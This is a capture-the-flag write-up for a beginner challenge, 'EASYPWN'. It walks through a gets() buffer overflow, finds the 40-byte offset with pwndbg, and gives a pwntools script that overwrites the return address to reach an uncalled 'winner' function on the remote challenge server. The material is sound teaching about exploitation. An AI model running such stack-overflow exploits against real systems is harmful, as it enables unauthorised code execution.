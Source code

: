 # EASYPWN

<p align="center">
    <img src="img/easypwn_chall.png" alt="Challenge" width="450"/>
</p>

We are given a binary and additional files to set up a docker environment similar to the one running remote.

When reversing the binary in IDA we see the following two functions
```c
int __fastcall main(int argc, const char **argv, const char **envp){
  ignore_me_init_buffering(argc, argv, envp);
  hello();
  return 0;
}
```

```c
int hello(){
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  puts("Hello!");
  puts("What's your name? ");
  gets(v1);
  return printf("Goodbye, %s!\n", v1);
}
```

There is also a function `winner`, which is not called anywhere, and will print the flag to us.


We can see in the `hello` function that `gets(v1)` is called. `gets` is dangerous to use, because it reads in *everything* that is given as input, leading to buffer overflows being possible.


Given that buffer `v1` is only 32 bytes in size, if we supply more than 32 bytes we will overflow and overwrite stack values. The return address is stored on the stack, so if we overflow it we can redirect the program execution to run the `winner` function, instead of going back to `main`.


If we send a *cyclic* sequence as input, we can read the address where we crashed, which is `0x6161616161616166`. The `cyclic -l 0x6161616161616166` in pwndbg

<p align="center">
    <img src="img/gdb_offset.png" alt="Challenge" width="400"/>
</p>

```
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Knowing the offset we can construct a payload which overflows the `v1` buffer with 40 bytes, and then overwrites the return address on the stack with the address of `winner`. The address of `winner` finds *pwntools* for us (but can also be found in many other ways).

```python
payload = b"A" * 40
payload += p64(exe.sym.winner) # Convert the address into bytes
```

We can construct a solve script
```python
from pwn import *

exe = context.binary = ELF("./easypwn", checksec=False)
io = remote("io.ept.gg", 30004)
io.clean()

payload = b"A"*40
payload += p64(exe.sym.winner) # Convert the address into bytes

io.sendline(payload)
io.interactive()
```

which gives us the flag when ran against the remote instance
```
```